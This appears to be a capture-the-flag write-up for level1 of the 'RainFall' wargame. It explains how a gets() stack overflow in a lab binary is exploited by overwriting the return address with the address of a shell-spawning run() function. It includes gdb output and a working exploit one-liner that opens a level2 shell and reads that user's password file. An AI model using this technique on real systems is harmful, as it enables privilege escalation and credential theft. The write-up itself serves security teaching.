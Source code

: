 In the main function, there is a call to `gets()`. What makes this program vulnerable is that we can overflow the buffer of this `gets()` call with other values and redirect it at the address we want. 

The best we can hope is to execute a Shell to take over controle with the rights of the user who owns the file. And fortunately, if we look better into the program, there is an uncalled function `run()` that opens a bash terminal.


open gdb :
```
Starting program: /home/user/level1/level1 <<< $(python -c "print 'A' * 76 + 'BBBB'")

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb) info reg ebp eip
ebp            0x41414141	0x41414141
eip            0x42424242	0x42424242
```

We rewrited the `seip` value and the program couldn't continue correctly not knowing what's at the address : 42424242.

0x08048444 is the address of the function `run()`,
\x44\x84\x04\x08 is the transcription of that address on a little-endian machine.

\x44\x84\x04\x08 are the four bytes of the target address. In C language, \x44 in a string tells the compiler to put a hexadecimal value 0x44 in the current position. The value will take up just one byte. Without using \x, if we directly put "44" in a string, the ASCII values of the characters ’4’ will be stored (ASCII value = 34).

```
python -c 'print "A" * 76 + "\x44\x84\x04\x08"' | ./level1
Good... Wait what?
Segmentation fault (core dumped)
```
Executing in shut the stdin so we have to find a way to keep it open.
`cat` will pump in the output of the python script into an input stream and wait for more inputs until EOF.

in the terminal :

```
level1@RainFall:~$ (python -c 'print "A"*76+"\x44\x84\x04\x08";' && cat) | ./level1
Good... Wait what?
whoami
level2
cat /home/user/level2/.pass
```

Stack overflow !